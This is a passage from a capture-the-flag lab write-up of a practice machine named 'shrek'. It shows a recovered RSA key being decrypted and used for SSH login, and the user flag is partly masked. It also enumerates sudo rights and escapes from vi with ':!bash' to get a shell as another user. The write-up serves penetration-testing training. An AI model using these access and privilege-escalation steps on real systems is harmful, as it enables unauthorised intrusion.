 
I can also create a decrypted copy of the key:

    
    
    htb-0xdf@10.10.14.42~/shrek-10.10.10.47$ openssl rsa -in ftp/key -out id_rsa_sec
    Enter pass phrase for ftp/key:
    writing RSA key
    

Now that doesn’t ask for a password:

    
    
    htb-0xdf@10.10.14.42~/shrek-10.10.10.47$ ssh -i id_rsa_sec sec@10.10.10.47
    Last login: Thu Jul 16 22:22:53 2020 from 10.10.14.42
    [sec@shrek ~]$ 
    

And I can get `user.txt`:

    
    
    [sec@shrek ~]$ cat user.txt
    4a30ad60************************
    

## Priv: sec –> root

### Fake Path

I always check `sudo -l`, and this time, it leads down a simple but useless
path:

    
    
    [sec@shrek ~]$ sudo -l
    User sec may run the following commands on shrek:
        (farquad) NOPASSWD: /usr/bin/vi
    

I can run `sudo -u farquad vi`, and then enter `:!bash` and drop to a shell as
farquad:

    
    
    [sec@shrek ~]$ sudo -u farquad vi
    [farquad@shrek sec]$
    

Strangely, farquad’s home directory is `/var/local.farquad`. In it, there’s a
binary:

    
    
    [farquad@shrek ~]$ ls
    mirror
    

Running it prints a message:

    
    
    [farquad@shrek ~]$ ./mirror 
    Mirror, Mirror on the wall who is the most handsome of all?
    Of course you Lord Farquad
    